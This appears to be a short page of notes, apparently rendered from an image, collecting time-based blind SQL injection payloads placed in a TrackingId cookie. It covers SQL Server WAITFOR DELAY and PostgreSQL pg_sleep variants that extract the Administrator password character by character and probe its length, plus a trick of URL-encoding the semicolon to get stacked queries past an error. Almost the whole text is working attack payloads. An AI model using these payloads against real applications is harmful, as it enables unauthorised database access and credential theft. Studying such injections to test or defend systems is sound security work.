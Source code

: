 Use Case:

`Cookie: TrackingId=IlAzXVbrp933YGHp'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:10'--;`

For PostgreSQL:

If you use ";", you get an error, but if it is encoded, then you are allowed to query. The following query does NOT work:

`Cookie: TrackingId=O6fRvnQwwVzqOXwY';SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--;`

This one does:

`Cookie: TrackingId=O6fRvnQwwVzqOXwY'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--;`

PostgreSQL find size of password (assuming there is a password column):

`Cookie: TrackingId=O6fRvnQwwVzqOXwY'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
